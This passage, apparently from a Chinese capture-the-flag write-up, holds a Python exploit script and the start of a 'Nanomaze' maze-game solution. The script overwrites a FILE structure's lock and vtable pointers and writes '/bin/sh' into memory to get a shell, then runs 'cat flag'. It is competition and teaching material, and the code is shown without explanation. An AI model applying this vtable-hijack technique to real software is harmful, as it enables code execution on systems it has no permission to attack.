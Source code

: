 ```python
lo = addr % (2 ** 32)

print('set 0x400088 0x8a3b80')   # log_fp->_lock = &pmem[0x200000]
sys.stdout.flush()
time.sleep(1)

print('set 0x4000d8 0x9a3b80')   # log_fp->vtable = &pmem[0x300000]
sys.stdout.flush()
time.sleep(1)

print('set 0x400000 0x6e69622f') # "/bin"
sys.stdout.flush()
time.sleep(1)

print('set 0x400004 0x0068732f') # "/sh\0"
sys.stdout.flush()
time.sleep(1)

print('set 0x300060 ' + hex(lo))
sys.stdout.flush()
time.sleep(1)

print('set 0x300064 ' + hex(hi))
sys.stdout.flush()
time.sleep(1)

print('set 0x8000018 0xaa3b80')  # log_fp = &pmem[0x400000]
sys.stdout.flush()
time.sleep(1)

print('c')
sys.stdout.flush()
time.sleep(1)

print('ls')
sys.stdout.flush()
time.sleep(1)

print('cat flag')
sys.stdout.flush()
time.sleep(1)
```
## [misc] Nanomaze

nc 手玩一下，发现这是一款 **免费的二次元开放世界冒险游戏** 大作。

写个随机游走的脚本，把地图打印出来，可以注意到地图是固定的，但初始横坐标随机，每次开局往右顶到头再往上顶到头这样就完全固定了。

继续手玩发现有可以单向通行的机关（click），然后继续玩玩直到通关就行。

```python3
# coding: utf-8

# In[1325]:


from __future__ import print_function, division
import numpy as np
import matplotlib as mpl
import matplotlib.pyplot as plt
from matplotlib.ticker import MultipleLocator
get_ipython().run_line_magic('matplotlib', 'inline')
import pdb

```
